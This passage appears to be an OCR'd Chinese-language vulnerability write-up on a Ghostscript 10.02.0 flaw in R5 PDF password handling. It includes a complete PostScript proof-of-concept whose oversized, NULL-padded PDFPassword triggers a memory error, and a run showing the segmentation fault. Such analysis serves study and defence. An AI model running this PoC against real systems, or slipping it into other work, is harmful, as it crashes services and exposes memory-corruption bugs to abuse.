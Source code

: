 - PDFPassword  
这是**设置为特定字符串**  
的部分。  
  
- "hello\000BBBB..."  
用作您的密码。  
  
- hello\000  
→"hello"  
末尾包含**一个 NULL 字节 ( \000)**  
  
- BBBB...  
→**数据大于缓冲区大小**  
（漏洞触发）  
  
- 然后，该值**在 PDF 解释过程中check_password_R5(...)传递给函数**  
。  
  
**4. 运行 Ghostscript PDF 解析器（漏洞触发器）**  
  
```
(/tmp/out) (r) file runpdf
```  
  
- /tmp/out  
命令 Ghostscript 运行以形式保存的**PDF 文件。**  
  
- 在这个过程中，**解密逻辑被执行，从而出现漏洞**  
。  
  
**5. 运行 PoC 和完整代码**  
- 运行 PoC  
  
```
$ ghostscript -dNODISPLAY poc.ps
GPL Ghostscript 10.02.0 (2023-09-13)
Copyright (C) 2023 Artifex Software, Inc. All rights reserved.
This software is supplied under the GNU AGPLv3 and comes with NO WARRANTY:
see the file COPYING for details.
zsh: segmentation fault (core dumped) ghostscript -dNODISPLAY poc.ps
```  
  
- 完整 PoC 代码  
  
```
% Simple PDF with R5 encryption.
% This is not a very valid PDF but we only need to reach the decryption logic
/Payload (%PDF-1.7
1 0 obj << /CF << /StdCF << /AuthEvent /DocOpen /CFM /AESV3 /Length 32 >> >>
/Filter /Standard /Length 256
/O <bdc7906c8e8074c880ac23065956c0db6a83d234a942d296364d065edf800b8e32a728ba6916718fbeb70e071a4a33ba>
/OE <7c88773da067c026cc58b5204106d54e320d509ab1d10ac3251f7a14e60d6970>
/P -1028 /Perms <1b6bd44c023964a469d801f598c8d5c4> /R 5 /StmF /StdCF /StrF /StdCF
/U <338dc89fb4a90d45cacf91298759e015a6fb0d3f132af0e6970a0079af12054554e7ab059c5392f9abce8a329b2b154b>
/UE <0d8b18de820855c5855de2560a81db57bb4674946bdf2b25eb6b901386492bd7> /V 5 >>
endobj xref 0 1 0000000000 65535 f 0000000009 00000 n trailer << /Encrypt 1 0 R >> startxref 0) def

% Write the PDF data to a temporary file
/OutFile (/tmp/out) (w) file def
OutFile Payload writestring
OutFile closefile

% Set the PDFPassword to a buffer whose length is larger than its strlen
/PDFPassword (hello\000BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB) def

% Run the PDF interpreter on the file
(/tmp/out) (r) file runpdf

```